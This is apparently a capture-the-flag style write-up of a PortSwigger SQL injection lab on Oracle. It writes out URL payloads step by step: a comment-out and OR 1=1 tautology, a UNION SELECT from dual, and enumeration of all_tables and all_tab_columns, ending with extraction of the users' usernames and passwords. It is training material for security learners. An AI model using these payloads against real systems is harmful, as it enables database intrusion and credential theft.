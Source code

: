 
# SQL injection attack, listing the database contents on Oracle

This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response so you can use a UNION attack to retrieve data from other tables.

The application has a login function, and the database contains a table that holds usernames and passwords. You need to determine the name of this table and the columns it contains, then retrieve the contents of the table to obtain the username and password of all users.

To solve the lab, log in as the administrator user.

Hint: On Oracle databases, every SELECT statement must specify a table to select FROM. If your UNION SELECT attack does not query from a table, you will still need to include the FROM keyword followed by a valid table name.

There is a built-in table on Oracle called dual which you can use for this purpose. For example: UNION SELECT 'abc' FROM dual


---------------------------------------------

References: 

- https://portswigger.net/web-security/sql-injection/examining-the-database

- https://portswigger.net/web-security/sql-injection/cheat-sheet

---------------------------------------------


We see there are 2 values displayed in the table, the description and the content of the post:



![img](images/SQL%20injection%20attack,%20listing%20the%20database%20contents%20on%20Oracle/1.png)


We find these payload are valid to display the 4 posts in Gifts and the second all the items:

```
/filter?category=Pets'--
/filter?category=Pets'+or+1=1--
```

Also, that there are 2 columns returned by the query and we can do a UNION attack with the payload:

```
/filter?category=Pets'+union+all+select+NULL,NULL+from+dual--
```


List the table names with

```
SELECT table_name from all_tables
```

```
/filter?category=Pets'+union+all+select+'1',table_name+from+all_tables--
```



![img](images/SQL%20injection%20attack,%20listing%20the%20database%20contents%20on%20Oracle/2.png)

The interesting one seems “USERS_XWRQEE”. 

```
SELECT COLUMN_NAME from all_tab_columns WHERE table_name = 'USERS_XWRQEE'
```

```
/filter?category=Pets'+union+all+select+'1',COLUMN_NAME+from+all_tab_columns+WHERE+table_name+=+'USERS_XWRQEE'--
```



![img](images/SQL%20injection%20attack,%20listing%20the%20database%20contents%20on%20Oracle/3.png)

Finally:

```
SELECT USERNAME_KIWRQE,PASSWORD_OCABHB from USERS_XWRQEE
```

```
/filter?category=Pets'+union+all+select+USERNAME_KIWRQE,PASSWORD_OCABHB+from+USERS_XWRQEE--
```



![img](images/SQL%20injection%20attack,%20listing%20the%20database%20contents%20on%20Oracle/4.png)